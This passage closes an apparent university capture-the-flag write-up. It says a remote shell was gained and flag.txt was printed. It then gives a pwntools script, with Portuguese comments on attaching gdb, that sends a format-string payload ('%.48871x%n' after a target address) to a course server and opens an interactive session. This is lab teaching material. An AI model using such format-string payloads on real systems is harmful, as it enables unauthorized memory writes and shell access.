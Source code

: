 - Finally, we got access to a remote bash, where we were able to print the contents of flag.txt and catch the flag 

![Terminal print of gdb](img/Week6/CTF-flagfound.png)

**Python Script**
``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: $ gdb attach 9717 )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"@@@@\x34\xC0\x04\x08%.48871x%n")
p.interactive()
```